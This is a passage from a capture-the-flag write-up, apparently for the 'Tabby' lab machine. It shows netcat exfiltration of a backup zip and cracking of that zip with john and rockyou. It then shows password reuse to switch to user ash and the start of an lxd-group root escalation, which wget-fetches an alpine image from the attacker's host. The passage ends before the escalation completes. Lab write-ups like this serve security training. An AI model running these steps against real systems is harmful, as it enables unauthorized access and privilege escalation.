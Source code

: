 The backup file in the html/files directory is interesting, as it's owned by ash:

```
$ ls -lah /var/www/html/files/16162020_backup.zip 

-rw-r--r-- 1 ash ash 8.6K Jun 16 13:42 /var/www/html/files/16162020_backup.zip
```

We'll send this to our attacking machine with netcat, then crack it with john:

```
$ zip2john backup.zip > hash.txt

$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
...
backup.zip:admin@it::backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:backup.zip
```

We cracked the password for a file owned by ash, so we'll see if he reused his account password for this zip file:

```
$ su ash
su ash
Password: admin@it

ash@tabby:$
```

## Escalating to Root

If we look at our groups, we can see that we're part of the lxd group, which will be an easy priv-esc method:

```
$ id

uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

We'll start by building an alpine image on our attacking machine:

```
$ git clone https://github.com/saghul/lxd-alpine-builder.git

$ cd lxd-alpine-builder

$ sudo ./build-alpine -a i686

$ mv alpine-v3.12-i686-20200626_1209.tar.gz alpine.tar.gz
```

Now, we'll download this to the victim machine, and import it:

```
$ wget http://10.10.xx.xx/alpine.tar.gz

$ lxc image import ./alpine.tar.gz --alias myimage

$ lxd init

[Hit enter until this completes]
```
